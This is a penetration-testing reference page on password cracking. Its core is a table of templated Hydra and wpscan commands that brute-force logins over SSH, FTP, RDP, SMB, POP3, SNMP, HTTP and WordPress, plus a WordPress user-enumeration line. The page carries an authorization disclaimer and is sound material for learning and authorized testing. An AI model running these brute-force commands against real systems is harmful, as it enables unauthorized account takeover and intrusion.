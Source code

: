 # Password Cracking

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Headings:

This page was getting to be long, so here are shortcuts to the major sections.  I broke these out into separate pages for better organization and searchability.

* [Getting the hashes](gathering-the-hashes.md)
* [Wordlist manipulation](wordlist-manipulation.md)
* [Cracking the Hashes](cracking-the-hashes.md)

Not all methods of discovering passwords involve directly "cracking" hashes.  Brute forcing logins and direct recovery programs are also viable solutions.

## Password Recovery

Password recovery programs: [https://www.passcape.com/products](https://www.passcape.com/products) \(TODO:Test these!\)

## Brute forcing logins <a id="hydra"></a>

An amazing index of brute-force commands: [https://book.hacktricks.xyz/brute-force](https://book.hacktricks.xyz/brute-force)

### Hydra

Below are a few scriptable examples to brute force logins of common protocols.

| Command | Description |
| :--- | :--- |
| `hydra -P $pass_list -v $ip snmp -vV` | Brute force against SNMP |
| `hydra -t 1 -l $user -P $pass_list -vV $ip ftp` | FTP with  known user using password list |
| `hydra -vV -u -L $users_list -P $pass_list -t 1 -u $ip ssh` | SSH using list of users and passwords |
| `hydra -vV -u -L $users_list -p $pass -t 1 -u $ip ssh` | SSH with a known password and a username list |
| `hydra -vV $ip -s $port ssh -l $user -P $pass_list` | SSH with known username on non-standard port |
| `hydra -vV -l $user -P $pass_list -f $ip pop3` | POP3 Brute Force |
| `hydra -vV -L $users_list -P $pass_list $ip http-get $login_page` | HTTP GET with user and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list rdp://$ip` | Windows Remote Desktop with pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list $ip smb` | SMB brute force with known user and pass list |
| `hydra -vV -l $user -P $pass_list $ip http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | WordPress brute force an admin login |
| `hydra -vV -L $users_list -p $pass $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'` | WordPress enumerate users |
| `wpscan --url $url -U $user -P $pass_list` | Use wpscan to brute force password with known user |

#### Other useful Hydra options

**-x min:max:charset -** Generate passwords from min to max length. Charset can contain `1` for numbers, `a` for lowercase and `A` for uppercase characters.  Any other character that is added is put in the list.   
Example: `1:2:a1%.` The generated passwords will be of length 1 to 2 and contain lowercase letters, numbers and/or percent signs and dots.

**-e nsr -** Do additional checks. `n` for null password, `s` try login as pass, `r` try the reverse login as pass

### crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

[https://mpgn.gitbook.io/crackmapexec/](https://mpgn.gitbook.io/crackmapexec/)

## Resources

* [https://www.unix-ninja.com/p/A\_cheat-sheet\_for\_password\_crackers](https://www.unix-ninja.com/p/A_cheat-sheet_for_password_crackers)
* [https://github.com/frizb/](https://github.com/frizb/)
* [https://guide.offsecnewbie.com/password-cracking](https://guide.offsecnewbie.com/password-cracking)
* [https://www.hackingarticles.in/abusing-kerberos-using-impacket/](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

